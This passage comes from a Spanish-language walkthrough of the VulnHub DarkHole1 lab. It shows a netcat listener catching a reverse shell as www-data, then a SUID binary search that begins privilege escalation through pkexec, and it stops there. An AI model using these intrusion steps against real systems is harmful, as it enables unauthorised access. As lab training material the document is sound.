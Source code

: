 Probamos

![rce](/assets/img/commons/vulnhub/DarkHole1/rce.png){: .center-image }


## Explotación

---

Teniendo ejecución de código, procedemos a ponernos en escucha y lanzarnos una reverse shell.

![reverseshell](/assets/img/commons/vulnhub/DarkHole1/reverseshell.png){: .center-image }

```bash
❯ sudo rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.11] 53514
bash: cannot set terminal process group (906): Inappropriate ioctl for device
bash: no job control in this shell
www-data@darkhole:/var/www/html/upload$ whoami
whoami
www-data
www-data@darkhole:/var/www/html/upload$
```

## Escalación de privilegios

---

> Se puede elevar privilegios de dos formas
{: .prompt-tip }


### Primera - Exploit pkexec

Listamos los binarios `SUID` del sistema.

```bash
www-data@darkhole:/var/www/html/upload$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/at
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/mount
/home/john/toto
/snap/snapd/10707/usr/lib/snapd/snap-confine
/snap/snapd/12398/usr/lib/snapd/snap-confine
```